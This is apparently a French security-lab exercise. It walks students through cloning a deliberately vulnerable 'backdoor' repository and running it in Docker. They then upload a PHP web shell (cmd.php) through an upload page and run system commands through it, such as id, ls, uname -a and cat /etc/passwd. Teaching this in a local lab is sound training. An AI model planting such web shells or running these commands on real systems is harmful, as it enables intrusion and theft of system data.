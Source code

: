 Exercice backdoor :   

git clone https://github.com/PercevalFox/mdvp2026_backdoor.git  

A faire dans le repo /mdvp2026_backdoor   

mkdir -p web/uploads  

sudo docker-compose up -d --build  

Aller sur : http://votre_ip:8080/upload.php  

Uploader cmd.php depuis le dossier backdoors/  

Aller sur : http://votre_ip:8080/uploads/cmd.php?cmd=id  

Tester d'autres commandes :  

* ls  
* cat /etc/passwd  
* uname -a  
* a vous de tester des commandes linux =)
